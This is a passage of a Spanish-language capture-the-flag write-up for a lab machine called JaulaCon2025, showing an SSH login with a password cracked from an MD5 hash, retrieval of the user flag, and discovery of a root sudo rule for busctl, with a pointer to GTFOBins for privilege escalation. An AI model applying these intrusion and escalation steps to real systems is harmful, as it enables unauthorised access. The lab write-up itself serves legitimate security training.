 Excelente, tenemos la contraseña del **usuario JaulaCon2025** y parece que fue un **hash MD5**.

Podemos probarla en nuestra sesión actual o en una nueva apuntando al **servicio SSH**.

Yo haré lo segundo:
```bash
ssh JaulaCon2025@192.168.1.240
JaulaCon2025@192.168.1.240's password: 
Linux JaulaCon2025 6.1.0-26-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.112-1 (2024-09-30) x86_64
Last login: Wed Mar 26 11:53:48 2025
JaulaCon2025@JaulaCon2025:~$ whoami
JaulaCon2025
```
Estamos dentro.

Ya podemos buscar la flag del usuario:
```bash
JaulaCon2025@JaulaCon2025:~$ ls
user.txt
JaulaCon2025@JaulaCon2025:~$ cat user.txt
...
```

<br>

<h2 id="busctlPrivesc">Escalando Privilegios con Binario busctl</h2>

Revisemos los privilegios que tiene nuestro usuario:
```bash
JaulaCon2025@JaulaCon2025:~$ sudo -l
sudo: unable to resolve host JaulaCon2025: Nombre o servicio desconocido
Matching Defaults entries for JaulaCon2025 on JaulaCon2025:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User JaulaCon2025 may run the following commands on JaulaCon2025:
    (root) NOPASSWD: /usr/bin/busctl
```
Muy bien, podemos usar el **binario busctl** como **Root**.

Podemos encontrar una forma de escalar privilegios usando este binario en la **guía GTFOBins**:
* <a href="https://gtfobins.github.io/gtfobins/busctl/" target="_blank">GTFOBins: busctl</a>

<p align="center">
<img src="/assets/images/THL-writeup-jaulaCon2025/Captura14.png">
</p>
